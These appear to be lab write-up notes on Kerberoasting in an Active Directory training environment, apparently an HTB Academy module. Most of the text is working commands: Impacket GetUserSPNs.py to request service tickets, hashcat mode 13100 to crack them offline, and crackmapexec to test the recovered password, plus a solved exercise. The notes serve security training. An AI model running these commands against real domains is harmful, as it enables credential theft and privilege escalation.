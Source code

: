 # 🐕‍🦺 Kerberoasting

<figure><img src="../../../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments

In order to kerberoast, we can use several tools like:

* Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
* A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
* From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts

It's good to know that we can perform this attack from plenty of positions in the network:

* From a non-domain joined Linux host using valid domain user credentials.
* From a domain-joined Linux host as root after retrieving the keytab file.
* From a domain-joined Windows host authenticated as a domain user.
* From a domain-joined Windows host with a shell in the context of a domain account.
* As SYSTEM on a domain-joined Windows host.
* From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

When we obtain a TGS ticket after this attack, we still need to crack the hash offline in order to get access to the account with valid credentials

## Kerberoasting - from Linux

**Listing SPN Accounts with GetUserSPNs.py**

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

We can now pull all TGS tickets for offline processing using the `-request` flag.

**Requesting all TGS Tickets**

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

**Requesting a Single TGS ticket**

We're going to try to pull user sqldev:

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

To go even quicker, we can redirect the TGS with the `-outputfile`

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

**Cracking the Ticket Offline with Hashcat**

Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.

```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

**Testing Authentication against a Domain Controller**

With the clear text password, we can try to authenticate with the domain

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

### Practical example

_Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer._

So we're using the user forend, we previously got his password so we can use that to find SAMService's password

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService
```

<figure><img src="../../../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

We can even go further by outputting the result to a file:

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile sapshash
```

<figure><img src="../../../.gitbook/assets/image (1057).png" alt=""><figcaption></figcaption></figure>

Since the VM is outdated we take the hash on our local machine and fire up hashcat:

```
hashcat -m 13100 sapshash /usr/share/wordlists/rockyou.txt
```

And find the password

And with simple enumeration of users we found the answer to the question:

_What powerful local group on the Domain Controller is the SAPService user a member of?_

## Kerberoasting - from Windows

### Kerberoasting - Semi Manual method

For this task we'll use a [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\)) binary to enumerate SPNs in the domain.

```
C:\htb> setspn.exe -Q */*
```
